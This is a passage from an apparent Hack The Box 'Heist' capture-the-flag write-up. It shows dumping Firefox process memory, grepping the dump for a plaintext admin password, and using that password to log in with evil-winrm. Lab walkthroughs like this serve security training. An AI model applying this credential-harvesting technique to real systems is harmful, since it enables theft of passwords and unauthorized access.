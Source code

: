 {% highlight shell %}
PS > cat todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
{% endhighlight %}

<p>Armed with this information let's dump the browser's (firefox) process and look any stored passwords in memory. Getting the dump file over to our own host we do a quick check.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Heist# strings firefox.exe_191020_085813.dmp | egrep 'password'
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
{% endhighlight %}

<p>Perfect! Now let's expand our smb_logon files to validate the password.</p>

<p align="center">
<img width="100%" height="100%" src="{{ '/assets/htb-heist/root-administratorenum.PNG' | relative_url }}">
</p>

<p>Bam! Let's use our trusty evil-winrm to log on.</p>

<p align="center">
<img width="100%" height="100%" src="{{ '/assets/htb-heist/root-owned.PNG' | relative_url }}">
</p>

<p>There we go! Thanks everyone, until next time!</p>